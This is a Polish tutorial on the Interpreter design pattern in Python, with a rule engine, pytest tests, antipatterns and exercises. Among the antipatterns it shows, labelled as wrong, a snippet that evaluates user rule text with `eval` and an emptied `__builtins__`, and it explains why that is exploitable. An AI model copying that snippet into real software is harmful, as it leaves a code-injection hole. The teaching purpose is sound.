Uruchomienie demonstruje wszystkie kluczowe cechy Interpretera.

**Punkt 1 — kompilacja wyrażeń.** Każda reguła tekstowa jest parsowana i zamieniana na drzewo. Typ korzenia (np. `And`, `Or`, `Porownanie`) pokazuje strukturę zdania.

**Punkt 2 — ewaluacja na danych.** Ta sama reguła jest ewaluowana na trzech różnych zamówieniach. Zwróć uwagę na **cache** — reguła jest parsowana raz, potem 30 razy interpretowana. To realizacja kluczowej własności: parsowanie raz, ewaluacja wielokrotna.

**Punkt 3 — priorytety działają.** Wyrażenie `lojalny OR kwota > 1000 AND kategoria == "elektronika"` jest grupowane jako `lojalny OR (kwota > 1000 AND kategoria == "elektronika")`. Z nawiasami zmieniamy grupowanie — i wynik też się zmienia. To standardowe zachowanie języków programowania, którego nie da się uzyskać split-em stringa.

**Punkt 4 — komunikaty błędów.** Niekompletne wyrażenia zwracają **konkretne komunikaty z pozycją**. To kluczowe dla użytkownika, który sam pisze reguły.

### Testy

```python
# test_sklep_interpreter.py — uruchomienie: pytest test_sklep_interpreter.py -v
from decimal import Decimal

import pytest

from sklep_interpreter import (
    And,
    Lexer,
    Literal,
    Not,
    Or,
    Parser,
    Porownanie,
    SilnikRegul,
    Zamowienie,
    Zmienna,
)


@pytest.fixture
def silnik() -> SilnikRegul:
    return SilnikRegul()


@pytest.fixture
def zamowienie_elektronika() -> Zamowienie:
    return Zamowienie(
        "elektronika", Decimal("1500.00"), lojalny=True, nowy_klient=False
    )


# --- Lexer ---------------------------------------------------------------

def test_lexer_rozpoznaje_liczbe() -> None:
    tokeny = Lexer("123").tokenizuj()
    assert tokeny[0].typ.value == "LICZBA"
    assert tokeny[0].wartosc == "123"


def test_lexer_rozpoznaje_tekst() -> None:
    tokeny = Lexer('"Ala"').tokenizuj()
    assert tokeny[0].typ.value == "TEKST"
    assert tokeny[0].wartosc == "Ala"


def test_lexer_rozpoznaje_slowa_kluczowe() -> None:
    tokeny = Lexer("AND OR NOT").tokenizuj()
    assert [t.wartosc for t in tokeny[:3]] == ["AND", "OR", "NOT"]


def test_lexer_rzuca_dla_nieoczekiwanego_znaku() -> None:
    with pytest.raises(SyntaxError, match="nieoczekiwany znak"):
        Lexer("a @ b").tokenizuj()


def test_lexer_rzuca_dla_niezamknietego_tekstu() -> None:
    with pytest.raises(SyntaxError, match="niezamkniety"):
        Lexer('"Ala').tokenizuj()


# --- Parser -------------------------------------------------------------

def test_parser_pojedynczy_literał() -> None:
    drzewo = Parser(Lexer("123").tokenizuj()).parsuj()
    assert isinstance(drzewo, Literal)
    assert drzewo.wartosc == Decimal("123")


def test_parser_zmienna() -> None:
    drzewo = Parser(Lexer("kategoria").tokenizuj()).parsuj()
    assert isinstance(drzewo, Zmienna)
    assert drzewo.nazwa == "kategoria"


def test_parser_porownanie() -> None:
    drzewo = Parser(Lexer('kategoria == "elektronika"').tokenizuj()).parsuj()
    assert isinstance(drzewo, Porownanie)
    assert drzewo.op == "=="


def test_parser_and_ma_wyzszy_priorytet_niz_or() -> None:
    """a OR b AND c -> a OR (b AND c)."""
    drzewo = Parser(Lexer("a OR b AND c").tokenizuj()).parsuj()
    assert isinstance(drzewo, Or)
    assert isinstance(drzewo.lewa, Zmienna)
    assert isinstance(drzewo.prawa, And)


def test_parser_nawiasy_zmieniaja_grupowanie() -> None:
    """(a OR b) AND c -> And(Or(a,b), c)."""
    drzewo = Parser(Lexer("(a OR b) AND c").tokenizuj()).parsuj()
    assert isinstance(drzewo, And)
    assert isinstance(drzewo.lewa, Or)


def test_parser_not_wiaze_silniej_niz_and() -> None:
    """NOT a AND b -> (NOT a) AND b."""
    drzewo = Parser(Lexer("NOT a AND b").tokenizuj()).parsuj()
    assert isinstance(drzewo, And)
    assert isinstance(drzewo.lewa, Not)


def test_parser_rzuca_dla_niedomknietego_nawiasu() -> None:
    with pytest.raises(SyntaxError, match="nawias"):
        Parser(Lexer("(a == b").tokenizuj()).parsuj()


def test_parser_rzuca_dla_nieoczekiwanego_tokenu() -> None:
    with pytest.raises(SyntaxError):
        Parser(Lexer('kategoria "elektronika"').tokenizuj()).parsuj()


# --- Ewaluacja ----------------------------------------------------------

def test_ewaluacja_pojedynczego_porownania(
    silnik: SilnikRegul, zamowienie_elektronika: Zamowienie
) -> None:
    assert silnik.dopasuj('kategoria == "elektronika"', zamowienie_elektronika)
    assert not silnik.dopasuj('kategoria == "odziez"', zamowienie_elektronika)


def test_ewaluacja_and(silnik: SilnikRegul, zamowienie_elektronika: Zamowienie) -> None:
    assert silnik.dopasuj(
        'kategoria == "elektronika" AND kwota > 1000', zamowienie_elektronika
    )
    assert not silnik.dopasuj(
        'kategoria == "elektronika" AND kwota > 5000', zamowienie_elektronika
    )


def test_ewaluacja_or(silnik: SilnikRegul, zamowienie_elektronika: Zamowienie) -> None:
    assert silnik.dopasuj(
        'kategoria == "odziez" OR lojalny == True', zamowienie_elektronika
    )


def test_ewaluacja_not(silnik: SilnikRegul) -> None:
    z = Zamowienie("ksiazki", Decimal("100.00"), nowy_klient=True)
    assert silnik.dopasuj("NOT lojalny", z)


def test_nieznana_zmienna_rzuca_name_error(
    silnik: SilnikRegul, zamowienie_elektronika: Zamowienie
) -> None:
    with pytest.raises(NameError, match="nieznana zmienna"):
        silnik.dopasuj("nieistniejaca > 100", zamowienie_elektronika)


def test_cache_dziala(silnik: SilnikRegul, zamowienie_elektronika: Zamowienie) -> None:
    assert silnik.dopasuj('kategoria == "elektronika"', zamowienie_elektronika)
    # Drugie uzycie - nie parsujemy ponownie
    assert silnik.dopasuj('kategoria == "elektronika"', zamowienie_elektronika)


# --- Pelne scenariusze --------------------------------------------------

@pytest.mark.parametrize("regula,oczekiwany", [
    ('kategoria == "elektronika"', True),
    ('lojalny == True AND kwota > 1000', True),
    ('kategoria == "odziez" OR kwota > 2000', False),
    ('NOT lojalny', False),
    ('(kategoria == "elektronika" OR kategoria == "odziez") AND kwota > 1000', True),
])
def test_scenariusze(
    silnik: SilnikRegul, zamowienie_elektronika: Zamowienie,
    regula: str, oczekiwany: bool
) -> None:
    assert silnik.dopasuj(regula, zamowienie_elektronika) is oczekiwany
```

Kluczowe w tych testach jest to, że **testujemy parser na poziomie drzewa** (`test_parser_and_ma_wyzszy_priorytet_niz_or`), a nie tylko na poziomie wyników. To pozwala wyłapać błędy priorytetów, które mogłyby zostać ukryte przez szczęśliwe dane wejściowe.

---

## 6. Dynamika

### 6.1 Etapy przetwarzania — flowchart



*Diagram pokazuje pełny potok: tekst → tokeny → drzewo → ewaluacja, oraz kluczową własność, że parsowanie odbywa się raz, a ewaluacja może być wielokrotna na różnych danych.*

### 6.2 Ewaluacja złożonego wyrażenia — sequenceDiagram



*Diagram pokazuje, że ewaluacja jest rekurencyjna — każde wyrażenie złożone wywołuje `interpret` na swoich dzieciach, aż do liści, a wyniki wracają zsumowane według reguł operatora.*

Przeczytajmy ten diagram krok po kroku.

**Krok 1.** Klient woła `interpret` na korzeniu. Korzeń to `And` — wyrażenie złożone. Klient nie wie, że to `And`, ani że ma dzieci. Widzi tylko interfejs.

**Kroki 2–8.** `And` sprawdza najpierw **lewą** stronę: `Porownanie(kwota > 1000)`. To wyrażenie złożone — wywołuje `interpret` na dzieciach: `Zmienna("kwota")` i `Literal(1000)`. Każde z nich zwraca wartość: `Decimal(1500)` i `Decimal(1000)`. Porównanie zwraca `True` (1500 > 1000).

**Kroki 9–15.** `And` widzi, że lewa strona jest `True`, więc **ewaluuje prawą**: `Porownanie(lojalny == True)`. Znów rekurencja, znów zwrócenie wartości dziecka. Wynik: `True`.

**Kroki 16–17.** `And` zwraca `True` (oba operandy `True`).

**Kluczowa obserwacja:** klient widzi **jedno wywołanie**. Reszta rekurencji dzieje się „pod spodem". Klient nie wie, że drzewo było rekurencyjne — to **cała korzyść z Interpretera**.

Zwróć też uwagę na liczbę kroków: dla wyrażenia z dwoma porównaniami i czterema liśćmi mamy **17 kroków**. Dla drzewa o głębokości 5 z 30 liśćmi mamy **kilkadziesiąt kroków**. To pokazuje, dlaczego wydajność może być problemem przy tysiącach ewaluacji.

### 6.3 Cykl życia reguły



*Diagram pokazuje, że reguła przechodzi przez fazę parsowania raz (i wchodzi do cache), a potem jest ewaluowana wielokrotnie — błędy runtime przerywa ewaluację, ale nie niszczą drzewa.*

### 6.4 Drzewo AST dla przykładowej reguły

Dla reguły `"kategoria == \"elektronika\" AND (kwota > 1000 OR lojalny)"` drzewo wygląda tak:



*Diagram pokazuje drzewo AST dla typowej reguły: `And` z lewej strony ma porównanie kategorii, z prawej `Or` grupujący dwa warunki — nawiasy w tekście przekładają się na strukturę drzewa.*

**To jest najważniejszy obrazek tego modułu.** Drzewo „mówi" wszystko o regule: które operatory mają priorytet, jak nawiasy grupują, gdzie są liście. Jeśli chcesz zweryfikować, jak działa twoja gramatyka — wydrukuj drzewo (jak robimy w demonstracji).

> 💡 **Intuicja** — Interpreter to „kompilator w miniaturze". Prawdziwy kompilator ma front-end (lexer + parser + AST), middle-end (optymalizacje) i back-end (generowanie kodu maszynowego). Interpreter łączy front-end z bezpośrednią ewaluacją — bez kompilacji do kodu maszynowego. To dlatego jest wolniejszy niż natywny kod, ale dużo prostszy do napisania.

---

## 7. Kiedy używać / kiedy NIE używać

### Kiedy używać

**Gdy twoja domena ma mini-język.** Wyrażenia matematyczne, reguły biznesowe, filtry, formuły, DSL zapytań — wszystko tam, gdzie **tekst** jest lepszy od **kodu**.

**Gdy reguły zmieniają biznesowi (nie programiści).** Marketing, ryzyko, compliance — mogą pisać reguły tekstowo, system je ewaluuje. Bez tego każda zmiana wymaga wdrożenia nowej wersji.

**Gdy potrzebujesz konfiguracji, która ma logikę.** Reguły rabatowe z warunkami, polityki autoryzacji, filtry danych — konfiguracja YAML bez wyrażeń nie wystarcza.

**Gdy chcesz odseparować dane (reguły) od kodu.** Reguły są danymi — można je przechowywać w bazie, wersjonować, wyświetlać w GUI. Kod jest niezmienny.

**Gdy chcesz logować i audytować decyzje.** „Reguła `A AND B` na zamówieniu X dała `True`" — można zapisać całą ścieżkę decyzyjną.

**Gdy gramatyka jest mała i stabilna.** 5–20 reguł, które nie rozrastają się gwałtownie. Wtedy własny parser ma sens.

**Gdy chcesz pełnej kontroli nad błędami.** Własny parser daje lepsze komunikaty niż generyczne `eval` albo biblioteki.

**Gdy piszesz narzędzie do testowania reguł.** Podgląd drzewa, ewaluacja krok po kroku, symulacja — własny interpreter to umożliwia.

**Gdy używasz gotowej biblioteki.** `lark`, `pyparsing`, `jsonpath-ng`, `re` — to wszystko są **gotowe** interpretery, których możesz użyć zamiast pisać własne.

### Kiedy NIE używać

Ta lista jest najważniejsza w tym module. Przeczytaj ją szczególnie uważnie.

**Gdy wystarczy `if/elif`.** Trzy reguły w kodzie są lepsze niż 300 linii interpretera.

**Gdy wystarczy konfiguracja bez wyrażeń.** Lista reguł z typem i parametrami — `{"typ": "rabat_kategoria", "kategoria": "elektronika", "procent": 10}`. Często to wystarcza i eliminuje potrzebę parsera.

**Gdy wystarczy SQL.** Filtrowanie danych w bazie jest szybsze i lepiej zoptymalizowane niż własny interpreter. Użyj `WHERE` zamiast wymyślać język filtrów.

**Gdy wystarczy `re`.** Dla prostych przypadków wzorców tekstowych — wyrażenia regularne są wbudowane, przetestowane i szybkie.

**Gdy wystarczy `jsonpath-ng` albo `jmespath`.** Filtrowanie JSON-a w Pythonie ma gotowe biblioteki. Nie pisz własnego języka zapytań.

**Gdy wystarczy `ast.literal_eval`.** Ewaluacja literałów (liczby, stringi, listy) — gotowe, bezpieczne.

**Gdy wystarczy `lark` albo `pyparsing`.** Dla średnich gramatyk własny parser to strata czasu. Biblioteki są sprawdzone, obsługują priorytety, mają lepsze komunikaty błędów.

**Gdy gramatyka jest zbyt duża.** Jeśli twoja „reguła" ma więcej niż 30 tokenów, jeśli potrzebujesz funkcji, typów, zagnieżdżonych struktur — to nie jest już „mini-język". Napisz kompilator albo użyj generatora parserów.

**Gdy użytkownik może pisać dowolny kod.** Interpreter ma sens, gdy **ogranicza** — jeśli użytkownik ma pisać „cokolwiek", daj mu `eval` w piaskownicy albo API.

**Gdy nie masz czasu na utrzymanie parsera.** Parser to kod, który ewoluuje — nowe operatory, nowe typy, nowe komunikaty błędów. To nie jest „napisz raz i zapomnij".

**Gdy potrzebujesz wydajności.** Ewaluacja drzewa jest **wolna**. Dla 1000 ewaluacji na sekundę — 100 mikrosekund każda. Dla 100 000 na sekundę — robi się problematyczne.

**Gdy zespół nie zna tematu.** Parser to jedna z najtrudniejszych dziedzin programowania. Bez doświadczenia wprowadzenie interpretera jest ryzykowne.

**Zbiorczo — tabela decyzyjna:**

| Pytanie | Jeśli „tak" | Jeśli „nie" |
|---|---|---|
| Masz mini-język? | Rozważ Interpreter | Prawdopodobnie nie potrzebujesz |
| Tekst jest lepszy od kodu w twojej domenie? | Interpreter | Kod |
| 5–20 reguł? | Własny parser | Biblioteka (`lark`, `pyparsing`) |
| Bardziej złożone? | Biblioteka | Własny parser |
| Wystarczy `if/elif`? | **Nie Interpreter** | Interpreter OK |
| Wystarczy konfiguracja bez logiki? | **Nie Interpreter** | Interpreter OK |
| Wystarczy SQL? | **Nie Interpreter** | Interpreter OK |
| Wystarczy `re`? | **Nie Interpreter** | Interpreter OK |
| Zespół zna parsery? | Ryzyko kontrolowane | Duże ryzyko |
| Potrzebujesz wydajności? | Nie Interpreter | Interpreter OK |

> ⚠️ **Pułapka decyzyjna** — **Interpreter to wzorzec, który jest najczęściej przeszacowany.** Programiści czasem piszą go, bo brzmi „profesjonalnie". W rzeczywistości 95% przypadków, w których ktoś mówi „potrzebuję interpretera", kończy się na prostszym rozwiązaniu — konfiguracji, `re`, `lark`, SQL. **Zanim zaczniesz pisać, przetestuj trzy prostsze alternatywy.** Dopiero jeśli wszystkie zawiodą, sięgnij po własny parser.

---

## 8. Pułapki i antywzorce

**1. Brak jawnego priorytetu operatorów.** Najczęstsza pułapka.

```python
# ZLE: parser nie rozroznia priorytetow
def parsuj_wyrazenie(toki):
    if "OR" in toki:
        return Or(...)   # OR sprawdzane pierwsze!
    if "AND" in toki:
        return And(...)
```

**Konsekwencja:** `a OR b AND c` jest interpretowane jako `(a OR b) AND c` zamiast `a OR (b AND c)`. Użytkownik dostanie nieprawidłowe wyniki **bez żadnego błędu**. **Prawidłowo:** ustal priorytety i zakoduj je w strukturze parsera (jak w recursive descent z sekcji 3). Kolejność: `OR` < `AND` < `NOT` < `porównanie` < `arytmetyka` < `primary`. Test priorytetów **jawnie** — `test_parser_and_ma_wyzszy_priorytet_niz_or`.

**2. Brak obsługi nawiasów.**

```python
# ZLE: parser nie obsluguje nawiasow
# ...
```

**Konsekwencja:** `(a OR b) AND c` nie działa albo działa błędnie. Użytkownik nie może nadpisać priorytetów. **Prawidłowo:** obsłuż nawiasy w `primary` — nawias otwiera rekurencyjne wywołanie `_wyrazenie` i wymaga zamknięcia. To trywialne w recursive descent.

**3. Błędy parsera bez pozycji.**

```python
# ZLE
raise ValueError("blad skladni")
```

**Konsekwencja:** użytkownik dostaje „błąd składni" i nie wie, gdzie. Dla reguły 200 znaków — debugowanie to koszmar. **Prawidłowo:** każdy token ma **pozycję w tekście** (indeks znaku). Błędy podają pozycję, token, oczekiwanie. Dodatkowo — pokaż fragment tekstu wokół błędu.

**4. Brak walidacji typów w ewaluacji.**

```python
# ZLE
def interpret(self, ctx):
    return self.lewa.interpret(ctx) > self.prawa.interpret(ctx)
```

**Konsekwencja:** jeśli `lewa` to `str`, a `prawa` to `Decimal`, Python rzuci `TypeError` z niezrozumiałym komunikatem (`'>' not supported between instances of 'str' and 'Decimal'`). **Prawidłowo:** sprawdź typy i rzuć **swój** błąd z kontekstem. `TypeError: operator > wymaga Decimal, dostano str i Decimal`.

**5. `eval` w parsowaniu „bo tak wygodnie".**

```python
# ZLE
def ewaluuj(wyrazenie, ctx):
    return eval(wyrazenie, {"__builtins__": {}}, ctx)
```

**Konsekwencja:** nawet z pustym `__builtins__`, `eval` jest podatny na ataki. Nawet jeśli wydaje się „ograniczony", w praktyce `.` i `[]` dają dostęp do atrybutów obiektów — a to wektor ataku. **Prawidłowo:** napisz własny parser. Wartość bezpieczeństwa przewyższa koszt 200 linii kodu.

**6. Zbyt duża gramatyka w jednym parserze.**

```python
# ZLE: parser z 40 regulami, funkcje, typy, petle, wyjatki
```

**Konsekwencja:** własny parser staje się mini-kompilatorem. Trudno go poprawić, utrzymać, testować. **Prawidłowo:** przy 30+ regułach użyj generatora parserów (`lark`, `pyparsing`, `ply`). To narzędzia stworzone do tego zadania — zoptymalizowane, przetestowane, z lepszymi komunikatami.

**7. Brak obsługi błędów runtime w ewaluacji.**

```python
# ZLE
def interpretuj(self, ctx):
    return self.drzewo.interpret(ctx)
```

**Konsekwencja:** każdy błąd w regule (brak zmiennej, zły typ, dzielenie przez zero) przenosi się do miejsca wywołania z ogólnym komunikatem. Trudno odróżnić „błąd reguły" od „błąd systemu". **Prawidłowo:** owiń ewaluację w warstwę, która przechwytuje błędy reguły i opakowuje je w `BladReguly(zrodlo=tekst, pozycja=..., przyczyna=...)`.

**8. Brak cache drzewa — parsowanie wielokrotne.**

```python
# ZLE
def dopasuj(self, tekst, ctx):
    drzewo = Parser(Lexer(tekst).tokenizuj()).parsuj()   # parsowanie za kazdym razem!
    return drzewo.interpret(ctx)
```

**Konsekwencja:** 10 000 zamówień × parsowanie trwające 100 µs = 1 sekunda na samo parsowanie. Dramatyczna strata. **Prawidłowo:** parsuj **raz** i zapisz w cache — jak w `SilnikRegul.skompiluj`. Cache kluczowany po tekście.

**9. Cache bez limitu.**

```python
# ZLE
self._cache[tekst] = skompilowana    # rosnie bez konca
```

**Konsekwencja:** jeśli teksty reguł są dynamiczne (np. zawierają datę), cache rośnie w nieskończoność. **Prawidłowo:** ogranicz rozmiar cache (LRU) albo traktuj reguły jako **statyczne** (parsowane raz przy starcie, nie w runtime).

**10. Brak „pustego drzewa".**

```python
# ZLE
def _primary(self):
    # brak obslugi przypadku pustego wejscia
    tok = self._aktualny()
    # ...
```

**Konsekwencja:** parser może wpaść w nieskończoną pętlę (jeśli nie „zjada" tokenów) albo wywalić się bez komunikatu. **Prawidłowo:** każda metoda parsera zakłada, że wejście jest niepuste (parser był wołany tylko gdy są tokeny) albo jawnie sprawdza koniec.

**11. Interpreter bez testów priorytetów.**

```python
# ZLE
def test_parser():
    assert dopasuj("a AND b", ...)  # nie testuje priorytetow z OR
```

**Konsekwencja:** błędy priorytetów nie są wyłapywane, bo dane wejściowe „przypadkiem" nie zawierają `OR` i `AND` obok siebie. **Prawidłowo:** testy muszą jawnie sprawdzać strukturę drzewa (jak w sekcji 5). To **jedyna** skuteczna metoda weryfikacji priorytetów.

**12. Parser, który „chętnie" przyjmuje niepoprawny tekst.**

```python
# ZLE
def parsuj(self):
    if not self._tokeny:
        return Literal(False)   # pusty = False?!
```

**Konsekwencja:** niepoprawny tekst parsuje się do domyślnej wartości zamiast rzucić błąd. Użytkownik nie wie, że napisał coś złego. **Prawidłowo:** pusty tekst/niepoprawny tekst musi rzucić `SyntaxError`. Domyślne wartości są złe w parserach.

**13. `str.split` zamiast lexera.**

```python
# ZLE
def parsuj_proste(self, tekst):
    toki = tekst.split()   # traktuje kazdy znak jako osobny
    # ...
```

**Konsekwencja:** `kategoria=="elektronika"` (bez spacji) nie zadziała, bo `split()` zwróci `["kategoria==\"elektronika\""]`. **Prawidłowo:** napisz lexer albo użyj `re` z wyrażeniami tokenów.

**14. Nieprzetłumaczone wyjątki.** Pokazane w punkcie 4.

**15. Interpreter bez dokumentacji gramatyki.**

**Konsekwencja:** użytkownik nie wie, co może pisać. Nie ma listy operatorów, funkcji, typów. **Prawidłowo:** dołącz do systemu **dokumentację gramatyki** — listę operatorów z priorytetami, przykłady, listę dostępnych zmiennych (`ctx`). To część pracy, nie dodatek.

> ⚠️ **Pułapka zbiorcza** — Interpreter to wzorzec, który **karze za każdy brak dyscypliny bardzo głośno**. Brak priorytetu = błędne wyniki bez błędów. Brak cache = katastrofalna wydajność. Brak diagnostyki = frustracja użytkowników. Brak dokumentacji = system nieużywalny. **Zasada przewodnia**: **jeśli piszesz interpreter, to piszesz narzędzie — traktuj to jak produkt z użytkownikiem, dokumentacją, błędami, testami, cache.** Bez tego lepiej wybrać prostsze narzędzie.

---

## 9. Wzorce pokrewne i porównanie

### 9.1 Interpreter vs Composite — najbliższa rodzina

| Kryterium | Interpreter | Composite (moduł 22) |
|---|---|---|
| Struktura | Drzewo wyrażeń | Drzewo obiektów |
| Kontrakt | `interpret(ctx)` | `wartosc()`, `opis()` |
| Semantyka | Ewaluacja wyrażenia | Agregacja wartości |
| Liść | `Literal`, `Zmienna` | `Plik`, `Instrument` |
| Węzeł | `And`, `Or`, `Porównanie` | `GrupaPozycji`, `Katalog` |
| Rekurencja | Tak | Tak |
| Zastosowanie | Języki, DSL | Hierarchie danych |

**Interpreter to Composite z inną semantyką.** Gdybyś chciał, mógłbyś mieć jeden system, w którym wyrażenia są jednocześnie kompozytami i ewaluatorami. Ale utrzymywanie tego jako jednego wzorca zaciemnia intencję — dlatego w literaturze mówi się o nich osobno.

### 9.2 Interpreter vs Visitor

| Kryterium | Interpreter | Visitor (moduł 40) |
|---|---|---|
| Cel | Ewaluacja | Operacja na strukturze |
| Struktura | Drzewo wyrażeń | Drzewo obiektów |
| Zewnętrzność | Metoda wewnątrz klasy | Wizytator z zewnątrz |
| Nowe operacje | Nowa metoda w klasach | Nowy wizytator |
| Zastosowanie | Języki | Lint, eksport, transformacje |

Visitor jest dla **wielu różnych operacji** na strukturze. Interpreter jest dla **jednej głównej operacji** (ewaluacji). Jeśli chcesz na tym samym drzewie robić wiele rzeczy (ewaluacja, optymalizacja, code-generacja) — to nie Interpreter, to Visitor.

### 9.3 Interpreter vs Strategy

| Kryterium | Interpreter | Strategy (moduł 38) |
|---|---|---|
| Struktura | Drzewo | Płaski obiekt |
| Złożoność | Wiele węzłów, rekurencja | Jeden obiekt z metodą |
| Kiedy wybieramy | Z tekstu (parser) | W runtime (klient) |
| Zastosowanie | Języki | Algorytmy |

Strategy mówi „wybierz algorytm". Interpreter mówi „sparsuj i ewaluuj". Zupełnie różne.

### 9.4 Interpreter vs parser biblioteczny (`lark`, `pyparsing`)

| Kryterium | Interpreter (własny) | Biblioteka parserów |
|---|---|---|
| Trudność | Wysoka (lexer + parser) | Niska (deklaratywna gramatyka) |
| Kontrola nad błędami | Pełna | Ograniczona |
| Wydajność | Zależy | Zwykle lepsza |
| Gramatyka | Ręcznie kodowana | Deklaratywna |
| Małe gramatyki | OK | Nadmiar |
| Średnie/duże gramatyki | Ryzykowne | Właściwe |
| Utrzymanie | Twoja odpowiedzialność | Biblioteka |

**Praktyczna rekomendacja:** dla **ponad 5 reguł gramatycznych** — używaj biblioteki. Własny parser tylko dla naprawdę prostych przypadków.

### 9.5 Interpreter vs `re`

| Kryterium | Interpreter | `re` |
|---|---|---|
| Zastosowanie | Wyrażenia z logiką | Wzorce tekstowe |
| Zagnieżdżenie | Tak | Nie |
| Priorytety | Tak | Ograniczone |
| Gramatyka | Dowolna | Wbudowana |
| Kiedy używać | Wyrażenia biznesowe | Dopasowanie tekstu |

`re` to **wbudowany interpreter gramatyki regex**. Jeśli twoje „wyrażenia" pasują do regexów — używaj `re`. Własny interpreter dla wyrażeń, które nie pasują.

### 9.6 Kiedy który wzorzec — tabela zbiorcza

| Problem | Wzorzec / narzędzie |
|---|---|
| Ewaluacja wyrażeń z tekstu | Interpreter albo biblioteka |
| Hierarchia danych z agregacją | Composite (moduł 22) |
| Operacja na drzewie bez zmiany klas | Visitor (moduł 40) |
| Wymiana algorytmu w runtime | Strategy (moduł 38) |
| Dopasowanie tekstu | `re` |
| Parsowanie JSON | `json.loads` |
| Filtrowanie JSON | `jsonpath-ng` |
| Ewaluacja literałów | `ast.literal_eval` |
| Średnie gramatyki | `lark` / `pyparsing` |

> 🧠 **Zapamiętaj** — **Interpreter to wzorzec, który ma trzy różne poziomy zastosowania.** Pierwszy — klasyczny GoF, z ręcznie budowanym drzewem, w którym nie ma parsera. Drugi — z parserem, dla naprawdę małych gramatyk. Trzeci — z biblioteką parserową. Wybór poziomu zależy od złożoności gramatyki: **im bardziej złożona, tym mniej własnego kodu, tym więcej biblioteki.**

---

## 10. Ćwiczenia

### 🟢 Rozgrzewka — kalkulator wyrażeń arytmetycznych

**Polecenie:** Zbuduj mini-interpreter dla wyrażeń arytmetycznych z czterema działaniami (`+ - * /`), nawiasami i liczbami całkowitymi. Nie zajmuj się zmiennymi — tylko działania na liczbach.

**Wymagania:**
- Lexer rozpoznający liczby, operatory i nawiasy.
- Parser ze priorytetami: `+ -` niższe niż `* /`; nawiasy najwyższe.
- Drzewo wyrażeń: `Literal`, `Dodaj`, `Odejmij`, `Pomnóż`, `Podziel`.
- Ewaluacja zwraca `Decimal`.
- Testy: `2 + 3`, `2 * 3 + 4`, `2 + 3 * 4`, `(2 + 3) * 4`, dzielenie przez zero (błąd).
- Plik uruchamialny z demonstracją.

**Kryteria sukcesu:**
- `2 + 3 * 4` = 14 (nie 20) — priorytet działa.
- `(2 + 3) * 4` = 20 — nawiasy działają.
- `10 / 0` rzuca czytelny błąd.
- Testy pokazują strukturę drzewa dla każdego wyrażenia.

> 💡 **Wskazówka** — Użyj tej samej struktury co w sekcji 3 — recursive descent z pięcioma poziomami: `suma`, `iloczyn`, `primary` i `wyrażenie`. Pamiętaj o podziale w `_iloczyn`.

### 🟡 Praktyka — interpreter reguł AML

**Polecenie:** Zbuduj interpreter reguł AML (anti-money laundering — przeciwdziałanie praniu pieniędzy) dla 🏦 „Bank-klient". Reguły tekstowe:
```
kwota > 15000 AND waluta == "PLN"
kraj == "IR" OR kraj == "KP"
liczba_transakcji > 100 AND suma_miesieczna > 50000
```

**Wymagania:**
- Kontekst: `kwota`, `waluta`, `kraj`, `liczba_transakcji`, `suma_miesieczna`, `klient_pep` (bool).
- Kontrakt `Wyrażenie` z `interpret(ctx)`.
- Liście: `Literal`, `Zmienna`. Operatory: `And`, `Or`, `Not`, `Porównanie`.
- Lexer i parser z gramatyką jak w sekcji 3.
- **Cache** skompilowanych reguł.
- Testy: każda reguła osobno, ewaluacja na kilku klientach, błędy parsera (niepełne reguły).
- **Testy diagnostyczne**: brak zmiennej w kontekście → `NameError` z listą dostępnych.
- Plik uruchamialny z tabelą klientów × reguł.

**Kryteria sukcesu:**
- Każda reguła parsuje się poprawnie do drzewa.
- Ewaluacja daje poprawne wyniki na 5 klientach.
- Brak zmiennej daje czytelny komunikat.
- Cache działa — parsowanie raz, ewaluacja wielokrotna.

> 💡 **Wskazówka** — Kontekst powinien być **jednolicie typowany** (kwota jako `Decimal`, inne jako `str` lub `bool`). Sprawdź w `Porównanie`, że porównujesz właściwe typy. Złe porównanie `str > Decimal` powinno dać czytelny `TypeError`.

### 🔴 Wyzwanie — porównaj trzy podejścia: własny parser, `lark`, `ast`

**Polecenie:** Zbuduj **ten sam interpreter** (reguły rabatowe z sekcji 5) w trzech podejściach: (A) własny parser (jak w sekcji 5), (B) parser `lark` z deklaratywną gramatyką, (C) `ast.parse` z `BezpieczneAst`.

**Wymagania:**
- Trzy implementacje tego samego systemu reguł rabatowych.
- Wszystkie trzy obsługują identyczny zestaw reguł (porównania, `AND`, `OR`, `NOT`, nawiasy, arytmetyka).
- Wszystkie trzy dają identyczne wyniki na tym samym zestawie testów.
- Zmierz:
  1. liczbę linii kodu w każdym wariancie,
  2. czas parsowania 10 000 reguł,
  3. czas ewaluacji 100 000 razy (na cache-owanej regule),
  4. czytelność komunikatów błędów — **porównaj** komunikaty dla zadań: `"kategoria =="`, `"(a == b"`, `"a == @b"`,
  5. bezpieczeństwo wariantu C — spróbuj wstrzyknąć niebezpieczne wyrażenie i pokaż, że twoja `BezpieczneAst` je odrzuca,
  6. łatwość dodania nowego operatora (np. `IN`).
- Napisz raport (15+ zdań) z rekomendacją.

**Kryteria sukcesu:**
- Wariant B (`lark`) jest **istotnie krótszy** od A, ale mniej kontrolowany.
- Wariant C (`ast`) jest najszybszy do napisania, ale **wymaga bardzo ostrożnej walidacji** — pokazujesz to w testach bezpieczeństwa.
- Konkretne liczby (np. „wariant A: 250 linii, wariant B: 80 linii, wariant C: 50 linii").
- Wskazujesz, że **żaden nie jest uniwersalny** — wybór zależy od kontekstu.
- Twoja rekomendacja uwzględnia: złożoność gramatyki, wymagania bezpieczeństwa, zespół, wydajność.

> 💡 **Wskazówka** — Wariant C jest najkrótszy, ale **najbardziej ryzykowny**. Kluczowe jest pytanie: „czy naprawdę odrzucasz wszystkie niebezpieczne węzły?". W praktyce bardzo trudno to zrobić bezpiecznie — nawet drobne przeoczenie (np. `ast.Attribute`) daje atak. Twój test bezpieczeństwa to pokaże. **Wniosek praktyczny: wariant C używaj tylko gdy zaufanie do użytkownika jest pełne** (np. wewnętrzny zespół data science), nigdy dla danych z zewnątrz.

---

## 11. Ściągawka

| Problem w kodzie | Wzorzec / narzędzie | Rozwiązanie w Pythonie |
|---|---|---|
| Ręczne parsowanie stringa | Interpreter | Lexer + parser |
| Priorytety niejawne w kolejności `if` | Interpreter | Recursive descent z warstwami |
| Nawiasy nie działają | Interpreter + parser | Rekurencja w `primary` |
| Brak komunikatów błędów | Interpreter z pozycjami | Każdy token ma pozycję |
| Rosnąca lawina `if/elif` dla operatorów | Interpreter | Podklasy `Wyrażenie` |
| Chcesz konfigurowalne reguły biznesowe | Interpreter + parser | `SilnikRegul` z cache |
| Wyrażenia tylko literałowe | `ast.literal_eval` | `ast.literal_eval("...")` |
| Proste wzorce tekstowe | `re` | `re.compile(...)` |
